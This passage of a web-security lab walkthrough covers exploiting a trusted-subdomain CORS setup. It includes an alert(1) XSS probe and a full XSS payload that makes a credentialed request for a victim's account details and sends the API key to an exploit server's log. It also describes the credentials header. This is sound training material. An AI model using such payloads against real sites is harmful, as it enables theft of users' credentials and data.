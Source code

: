 3. **Identifying an XSS Vulnerability**
   - **Open a Product Page**: Navigate to a product page and click **"Check stock"**.
   - **Observe the HTTP URL**: Notice that the stock-checking functionality is loaded using an HTTP URL on a subdomain (e.g., `http://stock.YOUR-LAB-ID.web-security-academy.net`).
   - **Test for XSS**: Observe that the `productID` parameter is vulnerable to XSS. For example, you can inject a payload like `<script>alert(1)</script>` into the `productID` parameter to confirm the vulnerability.

4. **Crafting the Exploit**
   - **Go to the Exploit Server**: Navigate to the exploit server provided in the lab environment.
   - **Enter the Malicious HTML Code**: Paste the following HTML code into the exploit server's input field. Replace `YOUR-LAB-ID` with your unique lab domain name and `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID:

     ```html
     <script>
         document.location = 'http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload=reqListener;req.open("get","https://YOUR-LAB-ID.web-security-academy.net/accountDetails",true);req.withCredentials=true;req.send();function reqListener(){location="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key="+this.responseText;};</script>';
     </script>
     ```

     **Explanation of the Code**:
     - The `document.location` redirects the victim to the vulnerable subdomain (`stock.YOUR-LAB-ID.web-security-academy.net`) with an XSS payload embedded in the `productID` parameter.
     - The injected script makes a CORS request to `/accountDetails` on the main domain (`YOUR-LAB-ID.web-security-academy.net`) to retrieve the victim's API key.
     - The API key is then exfiltrated to the exploit server by appending it as a query parameter in the URL.

5. **Testing the Exploit**
   - **View the Exploit**: Click the **"View exploit"** button on the exploit server to simulate a victim visiting the malicious page.
   - **Observe the Result**: After viewing the exploit, you should be redirected to the `/log` page on the exploit server. Check the URL—it should now include the victim's API key as part of the query string.

6. **Delivering the Exploit to the Victim**
   - **Deliver the Exploit**: Once you've confirmed that the exploit works, click the **"Deliver exploit to victim"** button to simulate sending the malicious link to the victim.
   - **Access the Log**: Go back to the exploit server and click **"Access log"**. Retrieve the victim's API key from the log and submit it to complete the lab.

---

## Intranets and CORS Without Credentials

Most CORS attacks rely on the presence of the following response header:

```http
Access-Control-Allow-Credentials: true
```

This header allows the victim's browser to send cookies and other credentials with cross-origin requests. Without this header, the browser will **refuse to send cookies**, meaning the attacker will only gain access to **unauthenticated content**. In such cases, the attacker could just as easily access the same content by browsing directly to the target website.
